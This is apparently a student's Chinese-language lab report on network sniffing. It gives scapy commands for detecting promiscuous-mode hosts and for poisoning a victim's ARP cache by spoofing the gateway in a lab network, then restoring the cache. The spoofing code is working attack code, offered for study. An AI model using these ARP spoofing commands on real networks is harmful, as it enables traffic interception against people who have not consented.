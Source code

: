 # 第四章 网络监听
### 网络拓扑
- 拓扑图
  ![网络拓扑](./img/0%20%E6%8B%93%E6%89%91%E5%9B%BE.jpg)
- 网关地址
  ![网关地址](./img/1%20%E7%BD%91%E5%85%B3%E5%9C%B0%E5%9D%80.png)
- 攻击者地址
  ![攻击者](./img/2%20%E6%94%BB%E5%87%BB%E8%80%85%E5%9C%B0%E5%9D%80.png)
- 受害者地址
  ![受害者](./img/3%20%E5%8F%97%E5%AE%B3%E8%80%85%E5%9C%B0%E5%9D%80.png)
### 实验准备
#### 安装scapy
```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```
- 攻击者成功安装python3
  ![成功安装](./img/4%20%E6%88%90%E5%8A%9F%E5%AE%89%E8%A3%85.png)
- 进入scapy
  ![进入scapy](./img/5%20%E8%BF%9B%E5%85%A5scapy.png)
### 实验一：检测局域网中的异常终端
#### 实验过程
```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```
![检查混杂模式](./img/6%20%E6%A3%80%E6%9F%A5%E6%B7%B7%E6%9D%82%E6%A8%A1%E5%BC%8F.png)
```
# 在攻击者主机上开启 scapy
sudo scapy
```
![攻击者开启scapy](./img/7%20%E6%94%BB%E5%87%BB%E8%80%85%E5%BC%80%E5%90%AFscapy.png)
```
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.136")
```
![交互模式输入](./img/8%20%E4%BA%A4%E4%BA%92%E6%A8%A1%E5%BC%8F%E8%BE%93%E5%85%A5.png)
```
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```
![开启混杂模式](./img/9%20%E5%BC%80%E5%90%AF%E6%B7%B7%E6%9D%82%E6%A8%A1%E5%BC%8F.png)
```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.136")
```
![前后对比](./img/10%20%E5%89%8D%E5%90%8E%E5%AF%B9%E6%AF%94.png)
```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```
![关闭混杂](./img/11%20%E5%85%B3%E9%97%AD%E6%B7%B7%E6%9D%82.png)
#### 实验思考
- 查阅资料后了解到混杂模式与普通模式区别，故只有在混杂模式下，受害者主机才能收到该数据包
    ```
    混杂模式：接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
    普通模式：网卡只接收发给本机的包
    ```
### 实验二：手工单步“毒化”目标主机的 ARP 缓存
#### 实验步骤
##### 获取当前局域网的网关 MAC 地址
```
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```
![构造数据包](./img/12%20%E6%9E%84%E9%80%A0%E6%95%B0%E6%8D%AE%E5%8C%85.png)
```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```
![获取网关mac地址](./img/14%20%E8%8E%B7%E5%8F%96%E7%BD%91%E5%85%B3mac%E5%9C%B0%E5%9D%80.png)
##### 伪造网关数据包
```
# 准备发送给受害者主机
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.136", hwdst="08:00:27:8e:e8:91")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
![伪造数据包](./img/13%20%E4%BC%AA%E9%80%A0%E7%BD%91%E5%85%B3%E5%93%8D%E5%BA%94%E5%8C%85.png)

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
```
ip neigh
```
![成功被污染](./img/15%20%E6%88%90%E5%8A%9F%E8%A2%AB%E6%B1%A1%E6%9F%93.png)
##### 恢复受害者主机的 ARP 缓存记录
```
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:06:c0:26", pdst="172.16.111.136", hwdst="08:00:27:31:95:0c")
sendp(restorepkt1, count=100, inter=0.2)
```
![伪装网关](./img/16%20%E4%BC%AA%E8%A3%85%E7%BD%91%E5%85%B3.png)
此时在受害者主机上准备“刷新”网关 ARP 记录。
```
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
![恢复正常](./img/17%20%E6%81%A2%E5%A4%8D%E6%AD%A3%E5%B8%B8.png)
### 参考链接
- [一文详解ARP协议](https://www.cnblogs.com/cxuanBlog/p/14265315.html)
- [python利用scapy模块发送arp包](https://blog.csdn.net/weixin_43803070/article/details/95582344)